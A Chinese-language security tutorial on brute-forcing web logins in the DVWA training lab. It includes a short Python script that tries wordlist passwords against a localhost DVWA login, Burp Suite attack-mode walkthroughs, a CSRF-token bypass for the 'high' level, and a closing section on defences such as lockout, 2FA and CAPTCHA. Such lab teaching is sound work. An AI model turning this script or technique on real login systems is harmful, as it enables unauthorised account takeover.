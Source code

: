 # WEB漏洞：暴力破解

密码爆破的本质：依赖字典，连续性的，自动化的尝试密码登陆爆破

## 1）密码爆破思路

### 方式一：尝试爆破：假设密码长度6，每位有126种可能。那么需要尝试126^6次。

![image-20211011220925112](https://xbxaq.oss-cn-chengdu.aliyuncs.com/typora/image-20211011220925112.png)

![image-20211011221109971](https://xbxaq.oss-cn-chengdu.aliyuncs.com/typora/image-20211011221109971.png)

###        方式二：使用字典

​     思考：字典从何而来？ 

```
 参考泄露出来的最长使用的密码排名前200：
 https://nordpass.com/most-common-passwords-list/
 网络下载密码本
 密码生成器
```

![image-20211011222447807](https://xbxaq.oss-cn-chengdu.aliyuncs.com/typora/image-20211011222447807.png)

​      

### 方式三：使用POC实现爆破

POC实现爆破，python代码实现爆破：

```
1、读取字典，加载密码
2、发起http连接
3、分析HTTP响应
4、持续自动化爆破
```

代码：

readpass.py

```
# -*- coding: utf-8 -*-
# python 3

pwds = open("password.txt")
for pwd in pwds:
    print(pwd)

pwds.close()
```

httpconn.py

```
# -*- coding: utf-8 -*-
# python 3

import requests

pwds = open("password.txt")
for pwd in pwds:
    url = "http://localhost/DVWA-master/vulnerabilities/brute/"
    # PHPSESSID务必替换为登录以后的PHPSESSID
    resp = requests.get(url = url, params = {"username":"admin", "password":pwd.strip(), "Login":"Login"}, headers = {"Cookie":"security=low; PHPSESSID=0hhidoi7h1ln7jo9h2h0tgfnn6"})
    #print(resp.text)
    if 'Username and/or password incorrect.' in resp.text:
        print('破解失败：'+pwd, end='')
    else:
        print('破解成功：'+pwd, end='')
        break;
pwds.close()
```

## 2） DVWA靶场

### 环境准备：

下载代码： https://dvwa.co.uk/

配置数据库：修改config/config.inc.php

部署到phpstudy

注意是登录以后才可以使用暴破场景，而不是暴破首页的登录功能

## 3）暴力破解实现

### 使用python代码破解DVWA靶场

### 使用工具BP实现爆破

### 4）BP的攻击模式

## 攻击模式一：狙击手

![image-20211011231250903](https://xbxaq.oss-cn-chengdu.aliyuncs.com/typora/image-20211011231250903.png)

发起爆破：

![image-20211011231320361](https://xbxaq.oss-cn-chengdu.aliyuncs.com/typora/image-20211011231320361.png)

攻击结果：

![image-20211011231632982](https://xbxaq.oss-cn-chengdu.aliyuncs.com/typora/image-20211011231632982.png)

### 攻击模式二：攻城锤Battering ram

![image-20211011232151097](https://xbxaq.oss-cn-chengdu.aliyuncs.com/typora/image-20211011232151097.png)

![image-20211011232217925](https://xbxaq.oss-cn-chengdu.aliyuncs.com/typora/image-20211011232217925.png)

攻城锤模式，使用一个字典，两个节点的值一样：

![image-20211011232344114](https://xbxaq.oss-cn-chengdu.aliyuncs.com/typora/image-20211011232344114.png)

### 攻击模式三：草叉模式Pitchfork

![image-20211011232631140](https://xbxaq.oss-cn-chengdu.aliyuncs.com/typora/image-20211011232631140.png)

选择两个字典：

![image-20211011232217925](https://xbxaq.oss-cn-chengdu.aliyuncs.com/typora/image-20211011232217925.png)

![image-20211011232724554](https://xbxaq.oss-cn-chengdu.aliyuncs.com/typora/image-20211011232724554.png)

攻击结果：一共发起10次请求，每一次请求使用第一个字典的第一个值和第二个字典的第一个值匹配，依次类推：

![image-20211011232844736](https://xbxaq.oss-cn-chengdu.aliyuncs.com/typora/image-20211011232844736.png)

### 攻击模式四：集束炸弹Cluster bomb

![image-20211011233054890](https://xbxaq.oss-cn-chengdu.aliyuncs.com/typora/image-20211011233054890.png)

使用两个字典：

![image-20211011232217925](https://xbxaq.oss-cn-chengdu.aliyuncs.com/typora/image-20211011232217925.png)

![image-20211011232724554](https://xbxaq.oss-cn-chengdu.aliyuncs.com/typora/image-20211011232724554.png)

攻击结果：笛卡尔积，一共发起100次请求，爆破成功：

![image-20211011233242799](https://xbxaq.oss-cn-chengdu.aliyuncs.com/typora/image-20211011233242799.png)



## 5）防御

### DVWA-medium  ：sleep两秒

![image-20211011234222273](https://xbxaq.oss-cn-chengdu.aliyuncs.com/typora/image-20211011234222273.png)

### DVWA-high: 随机sleep 0-3秒   ，  增加CSRF token（客户端请求伪造token）

![image-20211011234311100](https://xbxaq.oss-cn-chengdu.aliyuncs.com/typora/image-20211011234311100.png)



BP拦截：

![image-20211011234443227](https://xbxaq.oss-cn-chengdu.aliyuncs.com/typora/image-20211011234443227.png)

选择草叉模式：

![image-20211011234703125](https://xbxaq.oss-cn-chengdu.aliyuncs.com/typora/image-20211011234703125.png)

加载第一个字典：

![image-20211011234750361](https://xbxaq.oss-cn-chengdu.aliyuncs.com/typora/image-20211011234750361.png)

第二个参数，是需要从上一次请求中的token种得到：

设置Options：匹配到前后的正则表达式，那么就是token：

![image-20211011235010768](https://xbxaq.oss-cn-chengdu.aliyuncs.com/typora/image-20211011235010768.png)

设置payloads：

![image-20211011235311678](https://xbxaq.oss-cn-chengdu.aliyuncs.com/typora/image-20211011235311678.png)

设置单线程：

![image-20211011235430541](https://xbxaq.oss-cn-chengdu.aliyuncs.com/typora/image-20211011235430541.png)

爆破结果：

![image-20211012000528262](https://xbxaq.oss-cn-chengdu.aliyuncs.com/typora/image-20211012000528262.png)

添加提示：

![image-20211012000935767](https://xbxaq.oss-cn-chengdu.aliyuncs.com/typora/image-20211012000935767.png)

点击Add：

![image-20211012001000306](https://xbxaq.oss-cn-chengdu.aliyuncs.com/typora/image-20211012001000306.png)

爆破结果：

![image-20211012001317632](https://xbxaq.oss-cn-chengdu.aliyuncs.com/typora/image-20211012001317632.png)



### Dvwa-impossible：

### 限定次数：输错三次，锁定15分钟

![image-20211012001559780](https://xbxaq.oss-cn-chengdu.aliyuncs.com/typora/image-20211012001559780.png)



支付宝设置的防御机制：

![image-20211012001659334](https://xbxaq.oss-cn-chengdu.aliyuncs.com/typora/image-20211012001659334.png)

二次验证加固：

![image-20211012001800429](https://xbxaq.oss-cn-chengdu.aliyuncs.com/typora/image-20211012001800429.png)

人机识别加固：

![image-20211012002012228](https://xbxaq.oss-cn-chengdu.aliyuncs.com/typora/image-20211012002012228.png)

![image-20211012001858314](https://xbxaq.oss-cn-chengdu.aliyuncs.com/typora/image-20211012001858314.png)


